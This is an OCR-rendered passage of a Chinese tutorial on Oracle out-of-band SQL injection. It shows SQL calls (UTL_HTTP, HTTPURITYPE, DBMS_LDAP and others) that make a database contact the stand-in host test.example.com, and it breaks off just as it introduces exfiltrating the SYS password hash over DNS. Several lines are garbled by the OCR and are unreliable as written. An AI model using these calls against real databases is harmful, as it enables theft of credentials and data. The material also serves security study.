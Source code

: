 例如，要获取主机test.example.com的IP地址，

```
SELECT UTL_INADDR.GET_HOST_ADDRESS（'test.example.com'）;
```

#### **2.UTL_HTTP.REQUEST**

包UTL_HTTP从SQL和PL / SQL发出HTTP调用。 它的方法 REQUEST（）可以返回从给定地址获取的前2000个字节的数据，使用方法：

```
UTL_HTTP.REQUEST('&lt;url&gt;')
```

例如，想获取 [http://test.example.com/index.php开头的](http://test.example.com/index.php%E5%BC%80%E5%A4%B4%E7%9A%84) 2000 字节数据

```
SELECT UTL_HTTP.REQUEST('http://test.example.com/index.php') FROM DUAL;
```

#### **3.HTTPURITYPE.GETCLOB**

类HTTPURITYPE的实例方法GETCLOB（）返回从给定地址检索的 [Character Large Object（CLOB）](https://baike.baidu.com/item/CLOB/6327280)，使用方法：

```
HTTPURITYPE('&lt;url&gt;').GETCLOB()
```

例如，要从位于[http://test.example.com/index.php的页面启动内容检索，请运行：](http://test.example.com/index.php%E7%9A%84%E9%A1%B5%E9%9D%A2%E5%90%AF%E5%8A%A8%E5%86%85%E5%AE%B9%E6%A3%80%E7%B4%A2%EF%BC%8C%E8%AF%B7%E8%BF%90%E8%A1%8C%EF%BC%9A)

```
SELECT HTTPURITYPE('http://test.example.com/index.php').GETCLOB() FROM DUAL;
```

#### **4.DBMS_LDAP.INIT**

包 DBMS_LDAP 使 PL/SQL程序员能够从轻量级目录访问协议（LDAP）服务器访问数据。 它的INIT（）过程用于初始化LDAP服务器的会话，

```
DBMS_LDAP.INIT(('&lt;host&gt;',&lt;port&gt;)
```

例如 与 主机 test.example.com 初始化一个链接

```
SELECT
```

DBMS_LDAP.INIT((‘test.example.com’,80) FROM<br>
DUAL;

> **注意：**
攻击者可以使用任何提到的Oracle子例程来激发DNS请求。 但是，从Oracle11g开始，可能导致网络访问的子例程受到限制，但DBMS_LDAP.INIT() 除外

#### **5.实战案例**

以下是使用 Oracle程序DBMS_LDAP.INIT()通过DNS解析机制推送系统管理员（SYS）密码哈希的示例
